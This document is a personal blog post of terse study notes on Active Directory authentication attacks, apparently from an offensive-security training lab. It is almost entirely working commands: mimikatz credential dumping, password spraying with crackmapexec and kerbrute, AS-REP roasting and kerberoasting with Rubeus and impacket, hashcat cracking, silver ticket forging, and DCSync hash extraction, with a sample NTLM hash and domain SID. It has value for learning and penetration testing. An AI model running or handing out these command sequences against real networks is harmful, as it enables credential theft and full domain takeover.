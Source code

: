 ```yaml
---
layout: post
title: Active Directory Auth Attacks
titledate: 09/26/23
tags: ["infosec", "offsec", "AD", "powershell", "mimikatz", "rubeus", "impacket", "hashcat"]
---
```


#### pass cracking

    PS> .\mimikatz.exe

dump user hashes

    mimikatz# sekurlsa::logonpasswords

open another powershell window to create a service ticket

    PS> dir \\web04.corp.com\backup

can show that ticket in mimikatz

    mimikatz# sekurlsa::tickets

view lockout information

    PS> net accounts

slow password spraying attack using LDAP and ADSI

    PS> powershell -ep bypass

we can use a wordlist for passwords

    PS> .\Spray-Passwords.ps1 -Pass password! -Admin

our attack machine also has the tool crackmapexec that we can use to perform a similar sprayin function with an argument continue-on-success that will continue guessing even if accounts are found
    
    $ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

### crackmapexec output is Pwned if user has admin privs on a machine

another tool is called kerbrute

    PS> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt .\passwords.txt

for these 2 tools we can provide a list of usersnames that we've enumerated for the domain or we can use built in enumeration options in the tools

#### AS-REP roasting

if we have discovered pete's creds we can use GetNPUsers

    $ impacket-GetNPUsers -dc-ip 192.168.1.1  -request -outputfile hashes.asreproast corp.com/jim

this determines another user dave has the option Do not require Kerberos preauth enabled

this means his account is vulnerable to AS-REP roasting

let's determine which mode to use with hashcat

    $ hashcat --help | grep -i "Kerberos"

    $ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

to peform as-rep roasting on widows we use Rubeus

    PS> .\Rubeus.exe asreproast /nowrap

this will give us the as-rep hash of a user

then back on our kali machine 

    $ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

#### kerberoasting

    PS> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

we need hashcat to crack a TGS-rep hash

    $ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

if we can't run rubeus we can use impacket

    $ sudo impacket-GetUserSPNs -request -dc-ip 192.168.1.1 corp.com/john

#### silver ticket

we need a silver ticket to get access to an HTTP SPN resource

let's see if our user has access to the resource of the HTTP SPN mapped to the iis_service

    PS> iwr -UseDefaultCredentials http://web04

launch PS as admin adn load mimikatz

    mimikatz# privilege::debug

now we can dump the NTLM hash of the user that is mapped to the HTTP SPN , in this case iis_service

    mimikatz# sekurlsa::logonpasswords

this will give us the SID we need

    mimikatz# kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

this will create a golden ticket for the user jeffadmin

we confirm our ticket is created and available

    PS> klist

### NOTE: needs to happen inside the same cmd window/ process

now we can try to verify if we have access to the HTTP SPN like we did before

    PS> (iwr -UseDefaultCredentials http://web04).Content

.Content to get the html content of the page

we've forged a service ticket for a user that gives us access to a web page

#### dcsync 

we canuse mimikatz for this attack

    mimikatz# lsadump::dcsync /user:corp\jim

then crack the pass with hashcat

    $ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

against the admin

    mimikatz# lsadump::dcsync /user:beyond\Administrator

with impacket providing a user with access and the domain controller

    $ impacket-secretsdump -just-dc-user jim corp.com/jeffadmin:"pass123!"@192.168.1.1